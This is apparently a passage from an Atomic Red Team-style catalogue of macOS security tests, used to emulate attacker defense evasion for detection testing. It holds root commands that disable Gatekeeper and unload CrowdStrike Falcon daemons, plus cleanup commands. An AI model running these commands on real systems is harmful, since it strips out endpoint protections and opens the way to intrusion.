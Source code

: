 #### Cleanup Commands:

```sh
sudo launchctl load -w /Library/LaunchDaemons/com.opendns.osx.RoamingClientConfigUpdater.plist
```

<br/>
<br/>

## Atomic Test #9 - Disable macOS Gatekeeper

Disables macOS Gatekeeper

**Supported Platforms:** macOS

**auto_generated_guid:** 2a821573-fb3f-4e71-92c3-daac7432f053

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo spctl --master-disable
```

#### Cleanup Commands:

```sh
sudo spctl --master-enable
```

<br/>
<br/>

## Atomic Test #10 - Stop and unload Crowdstrike Falcon on macOS

Stop and unload Crowdstrike Falcon daemons falcond and userdaemon on macOS

**Supported Platforms:** macOS

**auto_generated_guid:** b3e7510c-2d4c-4249-a33f-591a2bc83eef

#### Inputs:

| Name             | Description                                       | Type | Default Value                                           |
| ---------------- | ------------------------------------------------- | ---- | ------------------------------------------------------- |
| falcond_plist    | The path of the Crowdstrike Falcon plist file     | path | /Library/LaunchDaemons/com.crowdstrike.falcond.plist    |
| userdaemon_plist | The path of the Crowdstrike Userdaemon plist file | path | /Library/LaunchDaemons/com.crowdstrike.userdaemon.plist |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo launchctl unload #{falcond_plist}
sudo launchctl unload #{userdaemon_plist}
```
